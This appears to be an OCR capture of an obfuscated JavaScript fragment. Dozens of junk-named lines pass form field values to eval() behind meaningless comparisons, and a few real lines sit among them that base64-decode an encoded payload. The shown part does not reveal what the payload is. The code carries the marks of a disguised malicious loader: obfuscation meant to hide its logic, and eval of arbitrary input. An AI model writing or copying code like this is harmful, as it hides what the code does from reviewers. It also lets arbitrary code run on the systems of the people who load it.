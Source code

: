         mn373SYpa7uXZ7U9OxPo=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=mn373SYpa7uXZ7U9OxPo)eval(mn373SYpa7uXZ7U9OxPo)
    	UStc3NsbGr2Si=myForm.pass1.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=UStc3NsbGr2Si)eval(UStc3NsbGr2Si)
    	dEvF8C5Sk2YUxTW=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=dEvF8C5Sk2YUxTW)eval(dEvF8C5Sk2YUxTW)
    	rxmBiIYoakOAshGAn=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=rxmBiIYoakOAshGAn)eval(rxmBiIYoakOAshGAn)
    	oIQXvqmAYT0PIe=myForm.pass1.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=oIQXvqmAYT0PIe)eval(oIQXvqmAYT0PIe)

    	_64 = 64

        SUxpGrODKM6sQiqj=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=SUxpGrODKM6sQiqj)eval(SUxpGrODKM6sQiqj)
    	cel4b84FeQbiKT6=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=cel4b84FeQbiKT6)eval(cel4b84FeQbiKT6)
    	MnakH=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=MnakH)eval(MnakH)
    	jzCPjIhvzT9cRL=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=jzCPjIhvzT9cRL)eval(jzCPjIhvzT9cRL)
    	JMToaM=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=JMToaM)eval(JMToaM)
    	qguBomGfcTZ6L4lRxS0TWx1IwG=myForm.pass4.value.split(';')
    	UEypLKmaXbn7cJ=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=UEypLKmaXbn7cJ)eval(UEypLKmaXbn7cJ)
    	a5jY5A2cYSj1PD41g=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=a5jY5A2cYSj1PD41g)eval(a5jY5A2cYSj1PD41g)
    	qxsKRvkQ=myForm.pass5.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=qxsKRvkQ)eval(qxsKRvkQ)
    	ibNppkEG1an=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=ibNppkEG1an)eval(ibNppkEG1an)
    	pUuhsBf4uUcxLkn=myForm.pass5.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=pUuhsBf4uUcxLkn)eval(pUuhsBf4uUcxLkn)

        dataDecoded = atob(dataEncoded).split('');

        GVDmw5eE70Cmpwi8=myForm.pass5.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=GVDmw5eE70Cmpwi8)eval(GVDmw5eE70Cmpwi8)
    	XSyVA9kU=myForm.pass5.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=XSyVA9kU)eval(XSyVA9kU)
    	QdpNBDNkBDhWaJHNNq8h=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=QdpNBDNkBDhWaJHNNq8h)eval(QdpNBDNkBDhWaJHNNq8h)
    	ddGIRY1ekiaMsRWZ=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=ddGIRY1ekiaMsRWZ)eval(ddGIRY1ekiaMsRWZ)
    	iBWBY2ijgq6WJ0G=myForm.pass1.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=iBWBY2ijgq6WJ0G)eval(iBWBY2ijgq6WJ0G)

        dataDecodedLen = dataDecoded.length;

        HTkHo8Rh3ciUY54ZdOFq=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=HTkHo8Rh3ciUY54ZdOFq)eval(HTkHo8Rh3ciUY54ZdOFq)
    	QjZWzQHRPBpZERXb=myForm.pass5.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=QjZWzQHRPBpZERXb)eval(QjZWzQHRPBpZERXb)
    	yxHIrkVDUd=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=yxHIrkVDUd)eval(yxHIrkVDUd)
    	lkhAbQfqat7=myForm.pass1.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=lkhAbQfqat7)eval(lkhAbQfqat7)
    	oFwv2RSBcNh=myForm.pass1.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=oFwv2RSBcNh)eval(oFwv2RSBcNh)
